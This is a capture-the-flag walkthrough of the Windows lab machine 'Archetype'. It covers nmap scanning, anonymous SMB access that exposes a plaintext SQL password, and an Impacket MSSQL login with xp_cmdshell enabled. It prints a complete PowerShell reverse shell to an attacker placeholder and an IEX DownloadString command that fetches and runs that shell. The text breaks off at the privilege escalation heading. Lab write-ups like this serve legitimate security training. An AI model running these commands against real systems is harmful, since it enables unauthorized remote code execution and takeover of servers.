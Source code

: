 # Archetype
AUTHOR: egre55
## Discription
Difficulty: Very Easy

OS: Windows
## Walkthrough
### Enumeration
First, take some scanning on host:
```bash
$ nmap -sC -sV 10.10.10.27
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-12 10:44 +07
Nmap scan report for 10.10.10.27
Host is up (1.3s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1234/tcp open  hotline?
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-09-12T02:39:54
|_Not valid after:  2051-09-12T02:39:54
|_ssl-date: 2021-09-12T04:10:04+00:00; +24m51s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows                                                
Host script results:
|_clock-skew: mean: 1h48m51s, deviation: 3h07m51s, median: 24m50s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-11T21:09:44-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-12T04:09:45
|_  start_date: N/A
```
As we can see, there are 5 open ports 135, 139, 445, 1234, 1433 and we also got some additional information such as domain, OS, Server version,...

Do a bit research about these ports and I found that:
- 135: MS-RPC endpoint mapper
- 139: NetBIOS Session Service
- 445: SMB protocol *(Further reading here [NetBIOS and SMB Penetration Testing on Windows](https://www.hackingarticles.in/netbios-and-smb-penetration-testing-on-windows/))*
- 1234: I still have no idea what is this port used for :v *([TCP 1234 - Port Protocol Information and Warning!](https://www.auditmypc.com/tcp-port-1234.asp))*
- 1433: MS-SQL Server

Access SMB
```bash
$ smbclient -N -L \\\\10.10.10.27\\

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available

$ smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 19:20:57 2020
  ..                                  D        0  Mon Jan 20 19:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 19:23:02 2020

                10328063 blocks of size 4096. 8260225 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> exit
```

Take a look at downloaded file
```bash
$ cat prod.dtsConfig 
<DTSConfiguration>
	<DTSConfigurationHeading>
		<DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
	</DTSConfigurationHeading>
	<Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
		<ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
	</Configuration>
</DTSConfiguration>
```

[DTSCONFIG File Extension](https://fileinfo.com/extension/dtsconfig)

Get credential
```sql_svc:M3g4c0rp123```

### Foothold
Access SQL Server
```bash
$ mssqlclient.py -p 1433 ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

Explore SQL
```bash
SQL> enable_xp_cmdshell
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
archetype\sql_svc

SQL> select is_srvrolemember ('sysadmin');

-----------
          1		==> User has system admin privilege!

SQL> xp_cmdshell "systeminfo"
...

SQL> 
```

Prepare reverse shell script
[Shells - Windows](https://book.hacktricks.xyz/shells/shells/windows)
Save this as shell.ps1
```bash
$client = New-Object System.Net.Sockets.TCPClient("<attacker_ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Get known .ps1 file
[PS1 File Extension](https://fileinfo.com/extension/ps1)
[Differences between commands run in .bat file and powershell.exe](https://stackoverflow.com/questions/48215483/differences-between-commands-run-in-bat-file-and-powershell-exe)

Open http server for SQL Server to get the script
```bash
$ python3 -m http.server 8080
```

Open listening port for catching reverse shell
```bash
$ nc -lnvp <port>
```

Execute reverse shell from SQL Server
```bash
SQL> xp_cmdshell "powershell "IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>:8080/shell.ps1')""
```

### Privilege Escalation
